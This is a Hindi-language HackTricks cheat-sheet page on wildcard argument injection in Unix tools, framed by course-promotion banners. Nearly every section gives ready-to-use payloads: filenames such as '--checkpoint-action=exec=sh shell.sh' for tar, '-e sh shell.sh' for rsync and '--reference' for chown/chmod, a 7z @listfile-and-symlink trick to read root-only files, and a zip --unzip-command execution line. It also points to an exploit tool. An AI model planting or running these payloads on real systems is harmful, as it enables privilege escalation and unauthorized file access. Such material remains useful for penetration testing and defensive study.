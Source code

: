 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## chown, chmod

आप **यह संकेत दे सकते हैं कि आप बाकी फाइलों के लिए कौन सा फ़ाइल मालिक और अनुमतियाँ कॉपी करना चाहते हैं**
```bash
touch "--reference=/my/own/path/filename"
```
आप इसे [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(संयुक्त हमला)_ का उपयोग करके शोषण कर सकते हैं।\
अधिक जानकारी के लिए [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930) पर जाएं।

## Tar

**मनमाने आदेश निष्पादित करें:**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
आप इसे [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar हमला)_ का उपयोग करके शोषण कर सकते हैं।\
अधिक जानकारी के लिए [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930) पर जाएं।

## Rsync

**मनमाने आदेश निष्पादित करें:**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
आप इसे [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _attack)_ का उपयोग करके शोषण कर सकते हैं।\
अधिक जानकारी के लिए [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930) पर जाएं।

## 7z

**7z** में `--` का उपयोग करने पर भी `*` से पहले (ध्यान दें कि `--` का अर्थ है कि इसके बाद का इनपुट पैरामीटर के रूप में नहीं लिया जा सकता, इसलिए इस मामले में केवल फ़ाइल पथ) आप एक मनमाना त्रुटि उत्पन्न कर सकते हैं जिससे एक फ़ाइल पढ़ी जा सके, इसलिए यदि निम्नलिखित में से कोई आदेश रूट द्वारा निष्पादित किया जा रहा है:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
और आप उस फ़ोल्डर में फ़ाइलें बना सकते हैं जहाँ यह निष्पादित किया जा रहा है, आप फ़ाइल `@root.txt` और फ़ाइल `root.txt` बना सकते हैं जो उस फ़ाइल का **symlink** है जिसे आप पढ़ना चाहते हैं:
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
फिर, जब **7z** निष्पादित होता है, यह `root.txt` को एक फ़ाइल के रूप में मानता है जिसमें उन फ़ाइलों की सूची होती है जिन्हें इसे संकुचित करना चाहिए (यही `@root.txt` के अस्तित्व का संकेत है) और जब 7z `root.txt` को पढ़ता है, तो यह `/file/you/want/to/read` को पढ़ेगा और **चूंकि इस फ़ाइल की सामग्री फ़ाइलों की सूची नहीं है, यह एक त्रुटि फेंकेगा** जो सामग्री दिखाएगी।

_हैकथबॉक्स से CTF के बॉक्स के लेखों में अधिक जानकारी।_

## ज़िप

**मनमाने आदेश निष्पादित करें:**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
